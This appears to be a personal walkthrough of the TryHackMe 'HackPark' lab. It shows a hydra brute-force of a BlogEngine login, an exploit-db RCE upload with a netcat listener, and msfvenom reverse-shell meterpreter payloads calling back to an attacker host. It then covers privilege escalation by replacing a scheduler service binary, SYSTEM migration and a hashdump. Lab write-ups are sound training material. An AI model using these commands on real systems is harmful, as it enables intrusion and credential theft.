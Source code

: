 *2021-08-29*

*kimm3*

# Walkthrough: HackPark
Platform: TryHackMe

Difficulty: Medium

- [Link](https://tryhackme.com/room/hackpark)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history/enum1
export IP=10.10.243.156
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-20210828163924839.png)

![indexp80](assets/markdown-img-paste-20210828163904620.png)

This version of blogengine might be vulnerable to [RCE](https://nvd.nist.gov/vuln/detail/CVE-2019-6714) if we get the credentials.

![postform](assets/markdown-img-paste-20210828163825563.png)

A wild login site appears. It uses a POST form.

![def-creds](assets/markdown-img-paste-20210828163804723.png)

Let's try the default credentials.

![login-failed](assets/markdown-img-paste-20210828164028593.png)

Let's crack it.

```
hydra -f -V $IP -l admin -P sl/Passwords/Leaked-Databases/rockyou.txt http-post-form "/Account/login.aspx:__VIEWSTATE=PBrr9hXypKVb9vHI34CpelUqE9s0xj48isHxxY0GibkK8dwtNKaQVVM9tVqYepTXCRya9ycPWCfYbKECl%2FY3ow%2FGdCdIprjmBuxqr4RpTfb%2FbJGw%2BsLXI8yf5yxstdrc4jiFQHDsqq1tFM6YpxDXhCBBxhHuXaefNFljpv2QFbmn%2FPID&__EVENTVALIDATION=0w9RGcbfS%2F5uN%2BgUHXbi01i0fGOq%2B7RNFUDcHyxuShhGRkjW5S11FlK2UagrmoY%2BOW3W%2Bnurlx2vWc9AgYnIWiK%2BOvgjF3O9ju8TFm%2B9%2Bk6UkLt3YLhJtqDzGSQeq5VVp%2BSbxD7jH%2FGd84PLkhxmMLrFcn7seGbPSiMN1f9kASJ%2F1GZc&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" | tee scans/hydra-p80login
```

Use firefox devtools to get the POST data right(Network - Request - Form data).

![cracked](assets/markdown-img-paste-20210828170919460.png)

Success.

![blogengineadmin](assets/markdown-img-paste-20210828171010266.png)

## Foothold/Exploit
Get [this](https://www.exploit-db.com/exploits/46353) script.

```
mv ../Downloads/46353.cs upload/PostView.ascx
vim upload/PostView.ascx
# change IP to your tunnel ip

#new shell
script history/target1
nc -lvnp 4353
```

![upload](assets/markdown-img-paste-20210828171811445.png)

Follow the instructions in the file.

Trigger: `curl "http://10.10.243.156/?theme=../../App_Data/files"`

![foothold](assets/markdown-img-paste-20210828172128672.png)
### Shell to meterpreter
- Create payload

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.210.115 LPORT=3131 -f exe -o upload/mymerp.exe
```

- Transfer it to target

![uploadmerp](assets/markdown-img-paste-20210828175142759.png)

- Set up a listener in msfconsole

```
script history/target2
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.8.210.115
set LPORT 3131
run
```

Execute: `powershell start-process mymerp.exe`

![merpderp](assets/markdown-img-paste-20210828175059957.png)
## Privilege Escalation
```
# meterpreter
dir 'C:\Program Files (x86)'
ps
```

Going through the services, the 'Windows System Scheduler' is vulnerable to priv esc due to weak permission on files. We can replace the 'WService.exe' with a malicious client and get a reverse shell with system authority. It's all explanied in this [link](https://www.exploit-db.com/exploits/45072).

![ws-version](assets/markdown-img-paste-20210829095351962.png)

We have the same version that the exploit is written for.

```
# Enumerate service further, for path and name
load powershell
powershell_shell
# Service name
get-wmiobject win32_service | ?{$_.Name -like '*schedule*'} | select Name, PathName
# Exact path
get-childitem -path "C:\" -recurse -include "WService.exe" -erroraction silentlycontinue
```

![servicename](assets/markdown-img-paste-20210829093612680.png)

![searchwserv](assets/markdown-img-paste-20210829092852299.png)

Let's create another meterpreter binary with a different port, upload it and replace "WService.exe" with it. We don't have permissions to restart the service but according to the exploit it should restart itself in short intervals.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.210.115 LPORT=3132 -f exe -o upload/mysecondmerp.exe
cd "C:\Program Files (x86)\SystemScheduler"
ren "WService.exe" "WService.bak"
dir # to check
copy "C:\inetpub\wwwroot\App_data\files\mysecondmerp.exe" WService.exe
```

I waited for a while but nothing happened. Let's look at the files.

![logtxt](assets/markdown-img-paste-20210829105131205.png)

The service haven't restarted once since the machine was booted.

"Events\20198415519.INI_LOG.txt":

![messagexelog](assets/markdown-img-paste-20210829105258830.png)

This looks more promising, the Message.exe seems to be the one restarting every 30 secs.

Restore the "WService.exe" and exchange the "Message.exe" instead.

```
ren "Message.exe" "Message.bak"
ren "WService.exe" "Message.exe"
ren "WService.bak" "Wservice.exe"
dir # to check
```

![administrator](assets/markdown-img-paste-20210829105907225.png)

Meterpreter as Administrator.

![roottxt](assets/markdown-img-paste-20210829110119650.png)

The user flag is under user 'jeff'.
## Post Exploitation
Use 'ps' and 'getpid' and migrate to 'NT AUTHORITY\SYSTEM' to make a hashdump.

![hashdump](assets/markdown-img-paste-20210829110339264.png)
